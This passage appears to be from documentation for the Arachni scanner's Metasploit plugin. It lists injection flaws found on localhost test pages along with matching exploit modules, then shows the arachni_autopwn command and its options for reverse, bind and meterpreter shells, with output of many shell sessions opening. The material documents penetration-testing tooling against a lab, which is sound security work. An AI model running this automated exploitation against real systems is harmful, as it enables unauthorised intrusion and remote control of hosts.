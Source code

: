         13  127.0.0.1  /~zapotek/tests/forms/sqli.php          SQL Injection          POST    {"sql_inj"=>"1"}                     unix/webapp/arachni_sqlmap
        14  127.0.0.1  /~zapotek/tests/links/os_command.php    OS command injection   GET     {"os_command"=>"XXinjectionXX\x00"}  unix/webapp/arachni_exec
        15  127.0.0.1  /~zapotek/tests/links/os_command.php    OS command injection   GET     {"os_command"=>"XXinjectionXX"}      unix/webapp/arachni_exec
        16  127.0.0.1  /~zapotek/tests/links/rfi.php           Remote file inclusion  GET     {"rfi"=>"XXinjectionXX\x00"}         unix/webapp/arachni_php_include
        17  127.0.0.1  /~zapotek/tests/links/rfi.php           Remote file inclusion  GET     {"rfi"=>"XXinjectionXX"}             unix/webapp/arachni_php_include
        18  127.0.0.1  /~zapotek/tests/links/eval.php          Code injection         GET     {"eval"=>";XXinjectionXX"}           unix/webapp/arachni_php_eval
        19  127.0.0.1  /~zapotek/tests/links/sqli.php          Blind SQL Injection    GET     {"id"=>"1"}                          unix/webapp/arachni_sqlmap



    [*] Done!
    msf >

#### Automated exploitation (arachni_autopwn)

##### Usage
    msf > arachni_autopwn
    [*] Usage: arachni_autopwn [options]
            -h          Display this help text
            -x [regexp] Only run modules whose name matches the regex
            -a          Launch exploits against all matched targets
            -r          Use a reverse connect shell
            -b          Use a bind shell on a random port (default)
            -m          Use a meterpreter shell (if possible)
            -q          Disable exploit module output

##### Example
    msf > arachni_autopwn -a
    [*] Running pwn-jobs...
    [...snip...]
    [*] Command shell session 1 opened (127.0.0.1:54598 -> 127.0.0.1:5019) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 2 opened (127.0.0.1:55336 -> 127.0.0.1:8541) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 3 opened (127.0.0.1:37880 -> 127.0.0.1:12465) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 4 opened (127.0.0.1:49451 -> 127.0.0.1:10866) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 5 opened (127.0.0.1:40276 -> 127.0.0.1:11915) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 6 opened (127.0.0.1:34400 -> 127.0.0.1:5222) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 7 opened (127.0.0.1:58456 -> 127.0.0.1:10955) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 9 opened (127.0.0.1:48549 -> 127.0.0.1:5929) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 8 opened (127.0.0.1:47028 -> 127.0.0.1:12432) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 10 opened (127.0.0.1:38239 -> 127.0.0.1:11919) at 2010-10-28 18:26:00 +0100
    [*] Command shell session 11 opened (127.0.0.1:58541 -> 127.0.0.1:14343) at 2010-10-28 18:26:01 +0100
    [*] Command shell session 12 opened (127.0.0.1:48655 -> 127.0.0.1:13743) at 2010-10-28 18:26:01 +0100
    [*] Command shell session 13 opened (127.0.0.1:59996 -> 127.0.0.1:8895) at 2010-10-28 18:26:01 +0100
    [*] Command shell session 14 opened (127.0.0.1:53717 -> 127.0.0.1:10767) at 2010-10-28 18:26:01 +0100
    [*] Command shell session 15 opened (127.0.0.1:51623 -> 127.0.0.1:7668) at 2010-10-28 18:26:01 +0100
    [*] Command shell session 16 opened (127.0.0.1:47874 -> 127.0.0.1:8965) at 2010-10-28 18:26:02 +0100